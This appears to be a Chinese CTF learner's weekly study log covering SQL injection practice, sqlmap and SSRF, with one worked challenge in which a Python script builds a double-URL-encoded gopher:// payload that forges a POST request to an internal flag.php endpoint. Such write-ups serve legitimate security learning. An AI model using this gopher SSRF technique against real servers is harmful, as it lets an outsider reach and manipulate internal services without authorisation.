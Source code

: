 # 10.27~11.3 WEEK3

## 概况

- sqli-labs1~8关
- sqlmap的使用
- js分析，sql注入类题型（get型，post型，报错注入，布尔盲注，布尔盲注）
- ssrf类型开了个头（gopher协议）
- sictfweb类题型

## 学到的新知

### 1.post请求

打开网站发现什么都没有，根据url的提示，输入：

？url=127.0.0.1

打开后发现什么都没有，所以在url后加上/flag.php

进入网站后发现有一个输入框，右键查看源码：



得到post key以后在网上找到了一个脚本，构造payload：

```python
import urllib.parse

payload =\

"""

POST /flag.php HTTP/1.1

Host: 127.0.0.1:80

Content-Type: application/x-www-form-urlencoded

Content-Length: 36

key=25e580d42e65f2b4c6a50abb09aa0a0d

"""

\#注意后面一定要有回车，回车结尾表示http请求结束

tmp = urllib.parse.quote(payload)

new = tmp.replace('%0A','%0D%0A')

result = '[gopher://127.0.0.1:80/'+'_'+new](gopher://127.0.0.1:80/'+'_'+new)

result = urllib.parse.quote(result)

print(result)    # 这里因为是GET请求所以要进行两次url编码
```
